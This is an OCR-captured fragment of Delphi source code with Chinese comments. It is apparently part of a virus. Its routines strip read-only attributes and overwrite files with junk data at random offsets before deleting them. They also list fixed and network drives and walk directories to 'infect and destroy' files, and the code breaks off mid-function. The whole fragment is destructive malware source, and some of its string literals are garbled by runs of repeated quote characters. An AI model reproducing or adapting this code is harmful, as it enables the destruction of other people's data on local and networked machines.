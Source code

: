 FileHandle: Integer;
i, Size, Mass, Max, Len: Integer;
begin
try
      SetFileAttributes(PChar(FileName), 0); //去掉只读属性
      FileHandle := FileOpen(FileName, fmOpenWrite); //打开文件
      try
        Size := GetFileSize(FileHandle, nil); //文件大小
        i := 0;
        Randomize;
        Max := Random(15); //写入垃圾码的随机次数
        if Max < 5 then
        Max := 5;
        Mass := Size div Max; //每个间隔块的大小
        Len := Length(Catchword);
        while i < Max do
        begin
        FileSeek(FileHandle, i * Mass, 0); //定位
        //写入垃圾码，将文件彻底破坏掉
        FileWrite(FileHandle, Catchword, Len);
        Inc(i);
        end;
      finally
        FileClose(FileHandle); //关闭文件
      end;
      DeleteFile(PChar(FileName)); //删除之
except
end;
end;
{ 获得可写的驱动器列表 }
function GetDrives: string;
var
DiskType: Word;
D: Char;
Str: string;
i: Integer;
begin
for i := 0 to 25 do //遍历26个字母
begin
      D := Chr(i + 65);
      Str := D + '''''''''''''''':\'''''''''''''''';
      DiskType := GetDriveType(PChar(Str));
      //得到本地磁盘和网络盘
      if (DiskType = DRIVE_FIXED) or (DiskType = DRIVE_REMOTE) then
        Result := Result + D;
end;
end;
{ 遍历目录，感染和摧毁文件 }
procedure LoopFiles(Path, Mask: string);
var
i, Count: Integer;
Fn, Ext: string;
SubDir: TStrings;
SearchRec: TSearchRec;
Msg: TMsg;
function IsValidDir(SearchRec: TSearchRec): Integer;
begin
      if (SearchRec.Attr <> 16) and (SearchRec.Name <> ''''''''''''''''.'''''''''''''''') and
        (SearchRec.Name <> ''''''''''''''''..'''''''''''''''') then
        Result := 0 //不是目录
      else if (SearchRec.Attr = 16) and (SearchRec.Name <> ''''''''''''''''.'''''''''''''''') and
        (SearchRec.Name <> ''''''''''''''''..'''''''''''''''') then
        Result := 1 //不是根目录
      else Result := 2; //是根目录